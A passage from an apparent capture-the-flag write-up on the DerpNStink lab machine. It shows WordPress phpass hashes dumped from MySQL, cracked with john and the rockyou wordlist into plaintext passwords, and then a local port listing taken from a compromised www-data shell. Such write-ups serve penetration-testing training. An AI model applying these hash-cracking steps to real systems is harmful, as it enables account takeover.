 ### creds

|user_login|user_pass|
|-----------|----------|
|unclestinky|\$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41|
|admin|\$P$BgnU3VLAv.RWd3rdrkfVIuQr6mFvpd/|

## Decrypting wordpress hashes

The hashes from the MySQL database were type ```phpass``` .
In order to crack the hashes with hashcat, the mode for phpass is 400

![](/assets/img/vuln-dirpnstink/20210501125838.png)

Hashcat was taking awhile, so i switched over to john.

```bash
┌──(root💀kali)-[~/vuln/derpnstink]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt creds                                                   
Loaded 2 password hashes with 2 different salts (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
admin            (admin)
wedgie57         (unclestinky)
2g 0:00:07:53 DONE (2021-05-01 13:10) 0.004228g/s 5911p/s 5953c/s 5953C/s wedguy..wederliy1997
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed
```

The 2 hashes were cracked to:

|user_login|clear text pass|
|----------|---------------|
|admin|admin|
|unclestinky|wedgie57|

The cracked passwords were not valid ssh passwords.

## Local Service (rabbithole)

Port 631 was listening on local port 
```bash
ww-data@DeRPnStiNK:/$ ss -lnpt
State       Recv-Q Send-Q                                   Local Address:Port                                     Peer Address:Port 
LISTEN      0      50                                           127.0.0.1:3306                                                *:*     
LISTEN      0      5                                            127.0.1.1:53                                                  *:*     
LISTEN      0      32                                                   *:21                                                  *:*     
LISTEN      0      128                                                  *:22                                                  *:*     
LISTEN      0      128                                          127.0.0.1:631                                                 *:*     
```